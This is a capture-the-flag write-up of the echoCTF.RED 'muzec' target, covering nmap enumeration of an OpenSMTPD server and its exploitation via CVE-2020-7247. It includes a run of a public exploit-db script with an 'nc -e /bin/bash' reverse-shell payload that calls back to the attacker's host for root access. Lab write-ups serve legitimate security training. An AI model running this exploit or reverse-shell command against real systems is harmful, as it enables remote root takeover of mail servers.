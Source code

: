```yaml
---
layout: default
title : muzec - CVE-2020-7247 - echoCTF.RED
---
```



This is a target running a vulnerable OpenSMTPD instance of CVE-2020-7247.

### Description

A vulnerability discovered in OpenSMTPD, OpenBSD's mail server was exploitable since May 2018 (commit a8e222352f, "switch smtpd to new grammar") and allows an attacker to execute arbitrary shell commands, as root.

### Enumeration With Nmap

`nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.100.33`

```
# Nmap 7.91 scan initiated Sat Dec  4 09:26:10 2021 as: nmap -p- --min-rate 10000 -oA nmap/allports -v 10.0.100.33
Increasing send delay for 10.0.100.33 from 0 to 5 due to 230 out of 766 dropped probes since last increase.
Warning: 10.0.100.33 giving up on port because retransmission cap hit (10).
Increasing send delay for 10.0.100.33 from 640 to 1000 due to 108 out of 358 dropped probes since last increase.
Nmap scan report for 10.0.100.33
Host is up (0.15s latency).
Not shown: 40969 closed ports, 24565 filtered ports
PORT   STATE SERVICE
25/tcp open  smtp

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Dec  4 09:27:14 2021 -- 1 IP address (1 host up) scanned in 64.35 seconds
```

What we always do let use some default nmap script and service detection on it.

`nmap -sC -sV -oA nmap/normal -p 25 10.0.100.33`


```
# Nmap 7.91 scan initiated Sat Dec  4 09:28:37 2021 as: nmap -sC -sV -oA nmap -p 25 10.0.100.33
Nmap scan report for 10.0.100.33
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: CVE-2020-7247.echocity-f.com Hello nmap.scanme.org [10.10.0.186], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP, 
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info 
Service Info: Host: CVE-2020-7247.echocity-f.com

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec  4 09:28:45 2021 -- 1 IP address (1 host up) scanned in 7.42 seconds
```

Now let do some research on google and got an exploit on exploit-db already.

![image](https://user-images.githubusercontent.com/69868171/144713690-77e4bf27-b256-41d2-af5d-e030643eae4e.png)

Smooth let run it.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/echoctf/CVE-2020-7247]
└─$ python3 47984.py 10.0.100.33 25 'nc -e /bin/bash 10.10.0.186 1337'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

Now let check Ncat listener.

![image](https://user-images.githubusercontent.com/69868171/144713852-c1a26088-50df-4ce0-adc9-db49797dd19c.png)

We are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
